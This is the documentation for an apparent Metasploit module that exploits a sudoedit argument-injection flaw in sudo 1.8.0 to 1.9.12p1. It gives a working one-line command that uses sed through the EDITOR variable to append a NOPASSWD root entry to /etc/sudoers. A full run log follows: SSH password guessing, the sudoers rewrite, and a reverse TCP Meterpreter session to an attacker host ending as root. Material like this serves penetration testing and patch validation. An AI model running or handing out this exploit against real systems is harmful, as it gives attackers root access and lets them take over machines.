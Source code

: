 ## Vulnerable Application

This exploit takes advantage of a vulnerability in sudoedit, part of the sudo package.
The sudoedit (aka sudo -e) feature mishandles extra arguments passed in the user-provided
environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to
append arbitrary entries to the list of files to process. This can lead to privilege escalation.
by appending extra entries on /etc/sudoers allowing for execution of an arbitrary payload with root
privileges.

Affected versions are 1.8.0 through 1.9.12.p1.

The check method for this module will only work with Debian based systems. However,
many *nix based systems should be vulnerable.

This module was tested against sudo 1.9.9-1ubuntu2 on Ubuntu 22.04

### Exploit Breakdown

This exploit works by first identifying what file can be edited via `sudo -l`.  The `-S` flag
is also required or sudo may complain about not being in a proper tty environment, so `-S` specifies
to allow password input via stdin (although we never provide a password).

Next we make a new entry in `/etc/sudoers`.  In theory we could specify something similar to `"$USER ALL=(ALL:ALL) ALL"`
which many of the PoCs do, however we can be more surgical.  In this case, we don't specify the payload as most
Metasploit exploits would, but actually a shell (`/bin/sh` by default), as `sudo` doesn't play well with `&`.
We also add a flag at the end of our entry after a `#` (comment) for ease of erasing later.

Next we execute out payload, launching it through our shell.

Many of the PoCs work via user input where you have to manually edit `/etc/sudoers`. Obviously this strategy
won't work with metasploit, as we need to automate it. Early attempts tried to script `vi` into performing
the write and quite command, similar to:
`EDITOR="vi -c ':$' -c ':s/$/\\ruser ALL=(ALL:ALL) ALL/' -c ':wq'  -c ':q' -- /etc/sudoers" sudo -e /etc/motd`
However, the command didn't do well with newlines and escaping.

`sed` however is a valid editor, so it was relatively trivial to script out adding the new entry via sed:
```EDITOR="sed -i -e '$ a `whoami` ALL=(ALL:ALL) NOPASSWD: ALL' -- /etc/sudoers" sudo -e /etc/motd```

### Install

On Ubuntu 22.04:

```
wget http://security.ubuntu.com/ubuntu/pool/main/s/sudo/sudo_1.9.9-1ubuntu2_amd64.deb
sudo dpkg -i sudo_1.9.9-1ubuntu2_amd64.deb
```

Now add an entry to `/etc/sudoers` for an editable file, in this case we use `/etc/motd`.
Change 'user' for whatever user you want to be able to exploit this:

```
user ALL=(root) NOPASSWD: sudoedit /etc/motd
```

Now test this by running `sudo -l` and you should see:

```
User <user> may run the following commands on <system>:
    (ALL : ALL) ALL
    (root) NOPASSWD: sudoedit /etc/motd
```

Noting the entry at the bottom to `/etc/motd`

## Verification Steps

1. Install the application
2. Get an initial shell
3. Do: `use exploit/linux/local/sudoedit_bypass_priv_esc`
4. Do: `set session [session]`
5. Do: `run`
6. You should get a root shell.

## Options

### EDITABLEFILE

The file which can be edited via `sudoedit`. An attempt to auto detect this is made, so it is only required
if auto detection fails.

### SHELL

Which shell to use. Defaults to `/bin/sh`


## Scenarios

### Sudo 1.9.9-1ubuntu2 on Ubuntu 22.04

```
[*] Processing sudoedit.rb for ERB directives.
resource (sudoedit.rb)> use auxiliary/scanner/ssh/ssh_login
resource (sudoedit.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (sudoedit.rb)> set username ubuntu
username => ubuntu
resource (sudoedit.rb)> set password ubuntu
password => ubuntu
resource (sudoedit.rb)> run
[*] 1.1.1.1:22 - Starting bruteforce
[+] 1.1.1.1:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd) Linux ubuntu2204 5.15.0-48-generic #54-Ubuntu SMP Fri Aug 26 13:26:29 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:46613 -> 1.1.1.1:22) at 2023-04-25 18:46:03 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (sudoedit.rb)> use exploit/linux/local/sudoedit_bypass_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (sudoedit.rb)> set session 1
session => 1
resource (sudoedit.rb)> set verbose true
verbose => true
resource (sudoedit.rb)> exploit
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] sudo version 1.9.9.pre.1ubuntu2 is vulnerable
[+] The target is vulnerable. Sudo 1.9.9.pre.1ubuntu2 is vulnerable, can edit: /etc/motd
[*] Writing '/tmp/.LImVy' (250 bytes) ...
[*] Max line length is 65537
[*] Writing 250 bytes in 1 chunks of 735 bytes (octal-encoded), using printf
[*] Adding user to sudoers
[*] Executing command: EDITOR="sed -i -e '$ a `whoami` ALL=(ALL:ALL) NOPASSWD: /bin/sh # SbccIOwAiK1i' -- /etc/sudoers" sudo -S -e /etc/motd
[+] Likely successful exploitation, detected possitive error message: editing files in a writable directory is not permitted
[*] sudo: --: editing files in a writable directory is not permitted
[*] Spawning payload
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 1.1.1.1
[-] Manual cleanup is likely required, please run: sed -i '/# SbccIOwAiK1i/d' /etc/sudoers
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:57426) at 2023-04-25 18:46:25 -0400

(Meterpreter 2)(/home/ubuntu) > getuid
Server username: root
(Meterpreter 2)(/home/ubuntu) > sysinfo
Computer     : 1.1.1.1
OS           : Ubuntu 22.04 (Linux 5.15.0-48-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/home/ubuntu) > 
```
